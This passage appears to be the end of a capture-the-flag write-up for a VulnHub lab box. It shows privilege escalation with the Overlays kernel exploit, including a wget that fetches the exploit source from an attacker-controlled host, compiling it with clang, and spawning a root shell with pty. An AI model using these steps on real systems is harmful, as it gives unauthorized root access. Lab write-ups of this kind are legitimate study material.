

Moodle version 2.2.3 identified, with a PostgreSQL backend - couldn't connect directly due to peer auth.



### Overlays Exploit

The Overlays kernel exploit (https://www.exploit-db.com/exploits/37292) looked like the way in - gives root via a mount operation that doesn't check permissions properly.

```python
python -m http.server 5555
```
```bash
wget http://192.168.1.18:5555/overlays.c
clang overlays.c -o exploit
```

GCC wasn't installed, so swapped the compiler call in the exploit source to `clang` and recompiled. Running the exploit dropped a new (non-TTY) shell:

```python
python -c 'import pty; pty.spawn("/bin/bash")'
```

`id` confirmed root.

## Flags

**Root/System:** captured - moved into `/root` and read the flag.



## Lessons Learned

This box is a long chain of small info leaks across SMTP, POP3, and two separate web apps (sev-home and severnaya-station), each unlocking the next: decoded JS comments, brute-forced POP3 mailboxes, an EXIF-embedded stego password, and finally a kernel exploit for root. Worth remembering: always check image EXIF data on anything explicitly called out as "juicy" during an engagement - stego in metadata is a recurring VulnHub/CTF trick.
